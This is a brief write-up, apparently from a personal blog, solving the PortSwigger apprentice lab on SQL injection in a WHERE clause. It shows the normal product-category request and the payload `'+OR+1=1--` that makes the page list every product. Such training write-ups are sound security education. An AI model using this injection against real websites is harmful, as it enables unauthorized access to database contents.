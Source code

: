 ```yaml
---
title: PortSwigger - SQLi 1 - SQLi in WHERE clause
date: 2023-03-02
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Apprentice`

## 🎯 Goal

Show all the products no matter the category.

## ✅ Solution

Initial request:

````text
<website>/products?category=Gifts
````

With payload:

````text
<website>/products?category='+OR+1=1--
````
